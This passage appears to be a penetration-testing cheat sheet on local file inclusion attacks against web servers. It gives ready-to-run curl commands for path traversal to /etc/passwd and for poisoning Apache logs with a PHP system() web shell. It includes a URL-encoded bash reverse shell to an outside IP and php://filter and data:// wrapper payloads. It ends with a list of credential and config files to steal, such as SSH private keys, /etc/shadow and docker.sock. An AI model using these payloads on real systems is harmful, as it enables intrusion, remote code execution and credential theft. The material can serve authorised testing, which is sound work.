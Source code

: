 ### Local

```shell
curl http://<ip>/../../../../../../../../../etc/passwd

# poison a file that execute commands with <?php echo system($_GET['cmd']); ?> for example.
# perform the path traversal and add the command
curl http://<ip>/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls

# encode commands, for example, a reverse shell like: bash -c "bash -i >& /dev/tcp/192.168.123.193/4444 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.230%2F4444%200%3E%261%22

# PHP wrapper
curl http://<ip>/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
curl "http://<ip>/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"
```

#### Interesting files

!!! tip
    📜 Recommended wordlists: /usr/share/seclists/Fuzzing/LFI

!!! tip
    🍪 Try to run the service locally (docker) to see interesting files and paths.

=== "Linux"

    - `/home/<user>/.ssh/id_rsa`
    - `/etc/passwd`
    - `/etc/shadow`
    - `/etc/hosts`
    - `/etc/issue`
    - `/proc/version`
    - `/proc/cmdline`
    - `/proc/self/environ`
    - `/var/log/*`
    - `/var/log/auth.log`
    - `/var/log/secure`
    - `/var/log/syslog`
    - `/var/log/messages`
    - `/var/log/apache2/access.log`
    - `/var/log/nginx/access.log`
    - `/home/[user]/.bash_history`
    - `/var/www/html/`
    - `/opt/lampp/htdocs/`
    - `/etc/apache2/sites-available/*`
    - `/etc/nginx/sites-available/*`
    - `/etc/redis/redis.conf`
    - `/usr/local/etc/redis/redis.conf`
    - `/etc/mysql/my.cnf`
    - `/etc/my.cnf`
    - `/etc/postgresql/[version]/main/postgresql.conf`
    - `/etc/postgresql/[version]/main/pg_hba.conf`
    - `/etc/ssh/sshd_config`
    - `/etc/ssh/ssh_config`
    - `/etc/docker/daemon.json`
    - `/var/run/docker.sock`
    - `/etc/php/[version]/cli/php.ini`
    - `/etc/php/[version]/apache2/php.ini`
    - `/etc/mongod.conf`

